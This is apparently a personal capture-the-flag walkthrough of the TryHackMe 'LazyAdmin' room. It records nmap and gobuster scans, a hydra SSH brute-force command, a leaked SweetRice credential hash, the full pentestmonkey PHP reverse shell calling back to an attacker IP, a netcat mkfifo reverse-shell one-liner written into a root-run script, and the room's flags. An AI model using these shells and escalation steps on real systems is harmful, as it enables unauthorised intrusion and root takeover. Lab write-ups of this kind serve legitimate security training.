 #+TITLE: https://tryhackme.com/room/lazyadmin

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 12 02:43:20 2020 as: nmap -sC -sV -oA nmap/scan 10.10.62.227
Nmap scan report for 10.10.62.227
Host is up (0.12s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        # Nmap done at Thu Nov 12 02:43:48 2020 -- 1 IP address (1 host up) scanned in 28.85 seconds

#+end_src

* gobuster

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # gobuster dir -u 10.10.31.213/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.213/content
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/12 04:55:03 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
Progress: 31190 / 87665 (35.58%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/12 05:00:23 Finished
===============================================================

#+end_src

* searchsploit

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # searchsploit sweet
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Joomla! Component Sweetykeeper 1.5 - Local File Inclusion                                                                                                   | php/webapps/12182.txt
 SweetCMS 1.5.2 - 'index.php' SQL Injection                                                                                                                  | php/webapps/32490.txt
 SweetRice 0.5.3 - Remote File Inclusion                                                                                                                     | php/webapps/10246.txt
 SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                                                  | php/webapps/15413.txt
 SweetRice 1.5.1 - Arbitrary File Download                                                                                                                   | php/webapps/40698.py
 SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                     | php/webapps/40716.py
 SweetRice 1.5.1 - Backup Disclosure                                                                                                                         | php/webapps/40718.txt
 SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                | php/webapps/40692.html
 SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                           | php/webapps/40700.html
 SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                                       | php/webapps/14184.txt
 Zendesk App SweetHawk Survey 1.6 - Persistent Cross-Site Scripting                                                                                          | java/webapps/47781.txt
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Shellcodes: No Results

#+end_src

* bruteforcing
: hydra -l root -P rockyou.txt -u 10.10.31.213 ssh
- didnt work
* found backup file
- username
  : manager
- password
  : (md5) 2f749ade7f9e195bf475f37a44cafcb

#+begin_src sql

<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>

#+end_src

* uploaded php_reverse_shell
#+begin_src php

 <?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.27.168';  // CHANGE THIS
$port = 6969;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

#+end_src

* users
- itguy
  - flag
    : THM{63e5bce9271952aad1113b6f1ac28a07}
* interesting files

#+begin_src perl

www-data@THM-Chal:/home/itguy$ cat backup.pl
    cat backup.pl
    #!/usr/bin/perl

        system("sh", "/etc/copy.sh");

#+end_src

#+begin_src sh

www-data@THM-Chal:~$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

#+end_src

* exploit

#+begin_src bash

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 1337 >/tmp/f' >/etc/copy.sh

#+end_src

- root.txt
  : THM{6637f41d0177b6f37cb20d775124699f}
